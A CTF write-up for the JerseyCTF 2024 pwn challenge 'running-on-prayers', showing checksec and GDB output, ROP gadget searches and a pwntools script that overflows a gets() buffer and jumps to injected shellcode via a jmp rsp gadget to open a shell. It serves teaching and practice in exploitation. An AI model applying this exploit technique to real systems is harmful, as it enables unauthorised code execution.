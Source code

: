 +++
title = 'JerseyCTF 2024 - pwn/running-on-prayers'
date = 2024-03-24T18:51:51-04:00
draft = false
+++

We are given an executable and a netcat port. The name of the challenge suggests that this is a ROP challenge. Looking at the binary, all protections are off and the stack is executable, so we can inject shellcode.

```sh
checksec --file RunningOnPrayers
[*] '/home/df00/Desktop/RunningOnPrayers'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

The binary itself is very minimal, There is a main function that calls a vuln function. We use gets to read into a buffer, and that gives us our buffer overflow.

```c
undefined8 vuln(void)
{
  char local_28 [32];
  
  printf("The hard part is not finding the vulnerability, but actually doing something with it");
  gets(local_28);
  return 0;
}
```

I used ROPGadget to search for gadgets that we can use. Unfortunetly, no 'pop rdi' as that would have made things very easy. Given that we probably need to execute shellcode in this challenge, call and jmp would be useful gadets.

```sh
ROPgadget --binary RunningOnPrayers | grep "call"
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x000000000040103e : call qword ptr [rax - 0x5e1f00d]
0x0000000000401014 : call rax
0x0000000000401012 : je 0x401016 ; call rax
0x000000000040105b : sar edi, 0xff ; call qword ptr [rax - 0x5e1f00d]
0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax

```

```sh
ROPgadget --binary RunningOnPrayers | grep "jmp"
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x0000000000401173 : cli ; jmp 0x401100
0x0000000000401170 : endbr64 ; jmp 0x401100
0x00000000004010e5 : je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401127 : je 0x401130 ; mov edi, 0x404040 ; jmp rax
0x000000000040103a : jmp 0x401020
0x0000000000401174 : jmp 0x401100
0x000000000040100b : jmp 0x4840103f
0x00000000004010ec : jmp rax
0x0000000000401231 : jmp rsp
0x00000000004010e7 : mov edi, 0x404040 ; jmp rax
0x000000000040116c : nop dword ptr [rax] ; endbr64 ; jmp 0x401100
0x00000000004010e6 : or dword ptr [rdi + 0x404040], edi ; jmp rax
0x00000000004010e3 : test eax, eax ; je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401125 : test eax, eax ; je 0x401130 ; mov edi, 0x404040 ; jmp rax

```

Given that we have both jmp rax and call rax, my first thought was that we could use that. Lets overflow the buffer and take a look with GDB to see what happens.

```sh
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fffffffdfe0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x0               
$rcx   : 0x007ffff7e1aaa0  →  0x00000000fbad208b
$rdx   : 0x1               
$rsp   : 0x007fffffffdfe0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbp   : 0x007fffffffe000  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$rsi   : 0x1               
$rdi   : 0x007ffff7e1ca80  →  0x0000000000000000
$rip   : 0x000000004011a7  →  <vuln+49> mov eax, 0x0
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x007ffff7c09c78  →  0x000f0022000043b3
$r11   : 0x246             
$r12   : 0x007fffffffe128  →  0x007fffffffe448  →  "/home/df00/Desktop/RunningOnPrayers"
$r13   : 0x000000004011ae  →  <main+0> endbr64 
$r14   : 0x00000000403e18  →  0x00000000401140  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 

```

Here I just overflowed the buffer with all A's, but we see that our input is in rax. So if we fill our buffer with shellcode and call rax, it should execute right? Unfortunetly it won't. At vuln+49 right before we return, eax (lower 32 bits of rax) is set to zero.

```sh
gef➤  disas vuln
Dump of assembler code for function vuln:
   0x0000000000401176 <+0>:	endbr64 
   0x000000000040117a <+4>:	push   rbp
   0x000000000040117b <+5>:	mov    rbp,rsp
   0x000000000040117e <+8>:	sub    rsp,0x20
   0x0000000000401182 <+12>:	lea    rax,[rip+0xe7f]        # 0x402008
   0x0000000000401189 <+19>:	mov    rdi,rax
   0x000000000040118c <+22>:	mov    eax,0x0
   0x0000000000401191 <+27>:	call   0x401060 <printf@plt>
   0x0000000000401196 <+32>:	lea    rax,[rbp-0x20]
   0x000000000040119a <+36>:	mov    rdi,rax
   0x000000000040119d <+39>:	mov    eax,0x0
   0x00000000004011a2 <+44>:	call   0x401070 <gets@plt>
=> 0x00000000004011a7 <+49>:	mov    eax,0x0
   0x00000000004011ac <+54>:	leave  
   0x00000000004011ad <+55>:	ret    
End of assembler dump.
```
The other gadget that we can use is jmp rsp, and looking above we see that out input is also in rsp.

```sh
0x0000000000401231 : jmp rsp
```

rsp will point at the thing after the return pointer once ret has occured, so our shellcode will go right after jmp rsp.

The final solve script. Unfortunetly, the netcat port was down for almost the whole CTF, but as they say - it worked on my machine :) 

```python
from pwn import *

elf = ELF("./RunningOnPrayers")

context.binary = elf
context.log_level = "DEBUG"

libc = elf.libc
target = process("./RunningOnPrayers")


target.recvuntil("it")

jmp_rsp = next(elf.search(asm('jmp rsp')))
payload = flat(
    'A' * 0x28,             
    jmp_rsp,                
    asm(shellcraft.sh())     
)

target.sendline(payload)
target.interactive()
```


